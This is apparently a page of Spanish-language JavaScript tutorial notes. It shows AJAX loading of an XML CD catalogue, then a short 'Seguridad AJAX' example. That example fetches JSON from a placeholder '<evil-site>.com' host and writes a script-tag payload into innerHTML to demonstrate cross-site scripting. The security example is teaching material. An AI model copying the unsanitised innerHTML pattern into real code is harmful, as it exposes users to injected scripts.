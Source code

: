 ```javascript
function loadXML(url, cb) {
  var request = new XMLHttpRequest();
  request.onreadystatechange = function() {
    if (request.readyState == 4 && request.status == 200) {
        cb(request.responseXML);
    }
  };
  request.open("GET", url, true);
  request.send();
}

function directParser (item, property){
    return item.getElementsByTagName(property)[0].childNodes[0].nodeValue
}

loadXML("cd_catalog.xml", function(data){
    var discos = data.getElementsByTagName("CD");
    
    for (var i = 0; i < discos.length; i++) {
        var disco  = discos[i];
        console.log("---------------------")
        console.log("Título:", directParser(disco, "TITLE"))
        console.log("Artista:", directParser(disco, "ARTIST"))
        console.log("Año:", directParser(disco, "YEAR"))
    }
}); 
```

```
---------------------
Título: Empire Burlesque
Artista: Bob Dylan
Año: 1985
---------------------
Título: Hide your heart
Artista: Bonnie Tyler
Año: 1988
...
```


https://www.w3schools.com/xml/ajax_xmlfile.asp

### Seguridad AJAX

```javascript
// <evil-site>.com/hacked 
// {data:"<script>alert("¡Sorpresa!")</script>"}

var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://<evil-site>.com/hacked');
xhr.onload = function() {
    if (xhr.status === 200) {
    	var respuesta = JSON.parse(xhr.responseText)
        console.log("respuesta:", respuesta);
        document.body.innerHTML = respuesta.data
    }
};
xhr.send();
```

